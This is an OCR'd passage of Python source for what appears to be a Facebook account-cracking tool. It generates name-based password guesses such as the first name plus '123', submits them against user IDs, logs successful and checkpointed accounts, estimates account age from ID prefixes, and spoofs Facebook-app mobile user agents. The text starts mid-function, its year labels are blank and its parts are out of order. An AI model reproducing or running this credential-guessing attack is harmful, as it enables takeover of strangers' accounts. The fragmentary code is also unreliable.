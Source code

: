        pwx = [name, xz[0]+"123", xz[0]+"12345"]
      _ngentot_gratis_.submit(self.__mfb__, uid, pwx)
     except:
       pass
   os.remove(self.apk)
   hasil(ok,cp)
  else:
   AYAN_ARAIN('\nSalah')
   time.sleep(1)
   self.__pler__()
def tahun(fx):
 if len(fx)==15:
  if fx[:10] in ['1000000000']       :tahunz = ' '
  elif fx[:9] in ['100000000']       :tahunz = '  '
  elif fx[:8] in ['10000000']        :tahunz = ' '
  elif fx[:7] in ['1000000','1000001','1000002','1000003','1000004','1000005']:tahunz = ' '
  elif fx[:7] in ['1000006','1000007','1000008','1000009']:tahunz = ' '
  elif fx[:6] in ['100001']          :tahunz = ' '
  elif fx[:6] in ['100002','100003'] :tahunz = ' '
  elif fx[:6] in ['100004']          :tahunz = ' '
  elif fx[:6] in ['100005','100006'] :tahunz = ' '
  elif fx[:6] in ['100007','100008'] :tahunz = ' '
  elif fx[:6] in ['100009']          :tahunz = ' '
  elif fx[:5] in ['10001']           :tahunz = ' '
  elif fx[:5] in ['10002']           :tahunz = ' '
  elif fx[:5] in ['10003']           :tahunz = ' '
  elif fx[:5] in ['10004']           :tahunz = ' '
  elif fx[:5] in ['10005']           :tahunz = ' '
  elif fx[:5] in ['10006','10007','10008']:tahunz = ' '
  else:tahunz=''
 elif len(fx) in [9,10]:
  tahunz = ' '
 elif len(fx)==8:
  tahunz = ' '
 elif len(fx)==7:
  tahunz = ' '
 else:tahunz=''
 return tahunz
if __name__=='__main__':
 os.system("git pull")
	
 help()
	
imtiazak_ua_xaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+'
imtiazak_ua_asus    = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_huawei  = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_vivo    = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_oppo    = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
imtiazak_ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]'
imtiazak_ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
banner="""\033[1;37m